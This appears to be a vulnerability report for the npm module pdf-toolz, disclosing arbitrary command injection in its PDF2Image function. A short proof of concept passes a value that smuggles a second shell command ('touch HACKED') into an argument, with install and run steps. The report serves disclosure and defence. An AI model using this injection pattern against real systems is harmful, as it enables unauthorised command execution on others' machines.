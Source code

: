 # Description

The `pdf-toolz` module is vulnerable against `arbitrary command injection` due to the fact some `inputs` given by the `user` are unsafely processed and executed.

# POC

1. Create the following PoC file:

```js
// poc.js
var pdf = require('pdf-toolz/PDF2Image');
pdf.pdfToImage("a", "test; touch HACKED; #");

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
apt-get install graphicsmagick # Install the *gm* executable needed for the module
npm i pdf-toolz # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
